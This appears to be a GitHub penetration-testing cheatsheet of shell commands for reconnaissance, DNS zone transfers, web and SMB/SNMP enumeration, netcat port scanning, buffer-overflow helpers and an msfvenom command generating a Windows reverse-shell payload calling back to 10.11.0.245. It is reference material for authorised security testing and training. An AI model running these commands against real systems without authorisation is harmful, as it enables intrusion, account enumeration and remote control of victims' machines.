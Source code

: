 # Offensive Security / PenTesting Cheatsheets
A collection of cheatsheets, convenience functions, reminders and other useful snippets to aid your during your pentest engagement.
Disclaimer: I did not claim ownership of netcat and linux privilege escalation or reverse shell scripts.
The below is heavily inspired and based on https://github.com/dostoevskylabs/dostoevsky-pentest-notes.


## Reconnaissance / Enumeration

##### Extracting Live IPs from Nmap Scan
```bash
nmap 10.1.1.1 --open -oG scan-results; cat scan-results | grep "/open" | cut -d " " -f 2 > exposed-services-ips
```

##### DNS lookups, Zone Transfers & Brute-Force
```bash
whois domain.com
dig {a|txt|ns|mx} domain.com
dig {a|txt|ns|mx} domain.com @ns1.domain.com
host -t {a|txt|ns|mx} megacorpone.com
host -a megacorpone.com
host -l megacorpone.com ns1.megacorpone.com
dnsrecon -d megacorpone.com -t axfr @ns2.megacorpone.com
dnsenum domain.com
nslookup -> set type=any -> ls -d domain.com
for sub in $(cat subdomains.txt);do host $sub.domain.com|grep "has.address";done
```

##### Banner Grabbing
```bash
nc -v $TARGET 80
telnet $TARGET 80
curl -vX $TARGET
```

##### Kerberos User Enumeration
```bash
nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'
```


##### HTTP Brute-Force & Vulnerability Scanning
```bash
target=10.0.0.1; gobuster -u http://$target -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 150 -l | tee /root/tools/$target/$target-gobuster
target=10.0.0.1; nikto -h http://$target:80 | tee $target/$target-nikto
target=10.0.0.1; wpscan --url http://$target:80 --enumerate u,t,p | tee $target/$target-wpscan-enum
```

##### RPC / NetBios / SMB
```bash
rpcinfo -p $TARGET
nbtscan $TARGET

#list shares
smbclient -L //$TARGET -U ""

# null session
rpcclient -v "" $TARGET
smbclient -L //$TARGET
enum4linux $TARGET
```

##### SNMP
```bash

# Windows User Accounts
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25

# Windows Running Programs
snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2

# Windows Hostname
snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5

# Windows Share Information
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1

# Windows Share Information
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.27

# Windows TCP Ports
snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3

# Software Name
snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.6.3.1.2

# brute-force community strings
onesixtyone -i snmp-ips.txt -c community.txt

snmp-check $TARGET
```

##### SMTP
```bash
smtp-user-enum -U /usr/share/wordlists/names.txt -t $TARGET -m 150
```

## Gaining Access

##### Generating Payload with msfvenom
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.245 LPORT=443 -f c -a x86 --platform windows
```

## Local Enumeration & Privilege Escalation

##### Binary Exploitation with ImmunityDebugger
```
# Show loaded modules. We're interested in modules without protection, Read & Execute permissions
!mona modules
```

```
# Find JMP ESP (FFE4)
!mona find -s "\xFF\xE4" -m moduleName
```


##### Bash Ping Sweeper
```bash
#!/bin/bash
for lastOctet in {1..254}; do 
    ping -c 1 10.0.0.$lastOctet | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 &
done
```

##### Brute-forcing XOR'ed string with 1 byte key with Python
```python
encrypted = "encrypted-string-here"
for i in range(0,255):
    print("".join([chr(ord(e) ^ i) for e in encrypted]))
```

##### Generating Bad Characters String with Python
```python
'\\'.join([ "x{:02x}".format(i) for i in range(1,256) ])
```


##### Port Scanning with NetCat
```bash
nc -nvv -w 1 -z host 1000-2000
nc -nv -u -z -w 1 host 160-162
```

##### General File Search
```bash
# query the local db for a quick file find. Run updatedb before executing locate.
locate passwd 

# show which file would be executed in the current environment, depending on $PATH environment variable;
which nc wget curl php perl python netcat tftp telnet ftp

# search for *.conf (case-insensitive) files recursively starting with /etc;
find /etc -iname *.conf
```

